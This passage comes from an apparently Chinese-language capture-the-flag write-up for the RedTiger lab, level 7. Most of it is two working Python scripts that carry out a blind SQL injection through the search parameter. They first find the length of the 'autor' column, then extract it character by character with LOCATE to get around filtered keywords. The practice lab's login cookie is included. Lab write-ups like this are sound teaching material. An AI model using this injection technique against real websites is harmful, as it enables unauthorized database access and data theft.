 ```
The first syntax returns the position of the first occurrence of substring substr in string str. The second syntax returns the position of the first occurrence of substring substr in string str, starting at position pos. Returns 0 if substr is not in str. Returns NULL if substr or str is NULL. 

```

先得到 `autor` 字段的长度。
```
import requests
import string
from time import sleep

cookies={"level7login": "keep_in_mind_im_not_blind"}
url_base = "http://redtiger.labs.overthewire.org/level7.php"
params={"dosearch" : "search!", "search": "google" }
headers = {"Connection": "close"}

def get_len():
    lens=1
    while lens < 50:
        print "lens is ", lens
        params['search'] = "google%' and length(news.autor)={0} and '%'='".format(lens)
        resp =requests.post(url_base, data=params, cookies=cookies)
        if resp.status_code != 200:
            print "status code is not 200"
        content = resp.content
        #found id
        if content.find("Google: The browser is the computer") != -1 :
            break
        lens+=1
    return lens
```

得到17，然后逐一比较出每个字符。这里需要注意，服务器过滤了很多字符，比如 `<` 、 `>` ，`substr` 、 `substring` 、 `left` 等。只能用相等关系来比较了。


```
lens= 17
def get_item():
    result=""
    for start in range(5, lens+1):
        print "scanning ", start, " position"
        for char in string.printable:
            params['search']="google%' and locate('{0}',news.autor collate latin1_bin,{1})={1} and '%'='".format(char, start)
            #print params
            try:
                resp =requests.post(url_base, data=params, cookies=cookies, headers=headers)
            except requests.exceptions.ConnectionError:
                print "Connection refused by the server.."
                sleep(3)
                continue

            if resp.status_code != 200:
                print "status code is not 200"
            content = resp.content
            #found id
            if content.find("Google: The browser is the computer") != -1 :
                print "#Found ", (char)
                result+= (char)
                break
    return result
result = get_item()
print "result is ", result

```